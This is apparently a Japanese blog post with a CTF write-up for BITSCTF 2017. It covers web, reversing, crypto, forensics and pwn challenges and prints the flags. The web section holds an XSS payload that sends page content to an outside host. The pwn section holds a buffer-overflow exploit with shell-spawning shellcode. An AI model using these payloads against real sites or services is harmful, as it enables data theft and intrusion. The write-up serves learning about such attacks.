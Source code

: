 ```yaml
---
layout: post
title: BITSCTF 2017 の write-up
categories: [ctf]
date: 2017-02-06 07:00:00 +0900
---
```


チーム Harekaze で [BITSCTF 2017](https://bitsctf.bits-quark.org/) に参加しました。

最終的にチームで 520 点を獲得し、順位は 18 位 (得点 275 チーム中) でした。うち、私は 7 問を解いて 280 点を入れました。

以下、解いた問題の write-up です。

## [web 60] Message the admin

admin にメッセージが投げられるサービスですが、どうやらメッセージの閲覧ページに XSS があるようです。

```
<script>(new Image.src)='http://example.com?'+(document.body.innerHTML.match(/[0-9A-Za-z]+\{.+\}/ig)[0])</script>
```

を投げるとフラグが来ました。

```
BITSCTF{hsr_1s_n0t_cr3ative}
```

## [rev 80] Riskv and Reward

バイナリエディタでバイナリを眺めていると、`0x1040` から文字列と、`0x1080` からそれに対応する数値の配列がありました。

```python
s = open('riskv_and_reward', 'rb').read()
a = s[0x1040:0x1080]
b = s[0x1080:0x1100]
print ''.join(chr(a[x]) for x in b[::4])
```

を実行するとフラグが出ました。

```
BITSCTF{s0m3_r1sc5_4r3_w0rth_1t}
```

## [crypto 30] Enigma

いろいろ試していると暗号文はどうやら `0x06` と xor されているようだと分かります。

```python
def xor(s, t):
  return ''.join(chr(ord(c) ^ ord(d)) for c, d in zip(s, t))

cs = []
for x in range(1, 7):
  cs.append(open('encrypted/{}e'.format(x), 'rb').read())

for c in cs:
  print repr(xor(c, '\x06' * len(c)))
```

を実行するとフラグが出ました。

```
BITCTF{Focke-Wulf Fw 200}
```

## [for 10] Black Hole

strings で出てきた文字列を base64 でデコードするだけです。

```
BITCTF{S5 0014+81}
```

## [for 50] Tom and Jerry

USB のパケットをキャプチャしている pcap が渡されます。まずデスクリプタを確認すると、ベンダー ID が `0x056a` (ワコム)、プロダクト ID が `0x00d4` (CTL-460) と分かります。

どういうプロトコルを使っているのかググってみると、[USB Protocol - linuxwacom](http://linuxwacom.sourceforge.net/wiki/index.php/USB_Protocol#Bamboo_Stylus_Event_Packets) というページがヒットしました。あとはこれを見ながらスクリプトを書くだけです。

```python
from scapy.all import *
from PIL import Image, ImageDraw

pcap = rdpcap('Cat.pcap')
w, h = 1500, 1500
im = Image.new('RGB', (w, h))
draw = ImageDraw.Draw(im)

for p in pcap:
  buf = bytes(p)

  data = buf[0x40:]
  if len(data) < 9:
    continue

  x = data[2] | (data[3] << 8)
  y = data[4] | (data[5] << 8)
  x, y = x // 8, y // 8
  pressure = data[6] | (data[7] << 8)

  draw.ellipse((x-1, y-1, x+1, y+1), fill=(pressure, pressure, pressure))

im.save('result.png')
```

[![BITSCTF{THE_CLOSER_YOU_LOOK_THE_LESS_YOU_SEE}](../images/2017-02-06_1.png)](../images/2017-02-06_1.png)

```
BITSCTF{THE_CLOSER_YOU_LOOK_THE_LESS_YOU_SEE}
```

## [pwn 20] Command_Line

やるだけ。

```python
from pwn import *
context(os='linux', arch='amd64')
s = remote('bitsctf.bits-quark.org', 1337)
buf = int(p.recvline(), 16)
payload = ''
payload += 'A' * 24
payload += p64(buf+32)
payload += '\x90'
payload += asm(shellcraft.sh())
s.sendline(payload)
s.interactive()
s.close()
```

```
BITSCTF{b451c_57r416h7_f0rw4rd_5h3llc0d1n6}
```

## [pwn 30]	Random Game

バイナリを読むと `srand(time(NULL))` をしていることが分かります。

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
int main(void) {
  int i;
  srand(time(NULL));
  for (i = 0; i < 30; i++) {
    printf("%d\n", rand() & 0xf);
  }
  return 0;
}
```

これをコンパイルして `./rand | nc bitsctf.bits-quark.org 1330` でフラグが出ました。

```
BITSCTF{54m3_533d_54m3_53qu3nc3}
```

## 感想

[for 50] Gh0st in the machine はキーボードで入力されていた文字列だけ見ていて、結局解けませんでした。問題文の `BITS(WORDS.IN.CAPS)` をフラグは大文字でという意味で読んでいたのですが、まさか CapsLock のことだったとは…。

[web 80] Showcasing the admin は解きたかった問題で、いろいろ悩んでいたのですが解けませんでした。
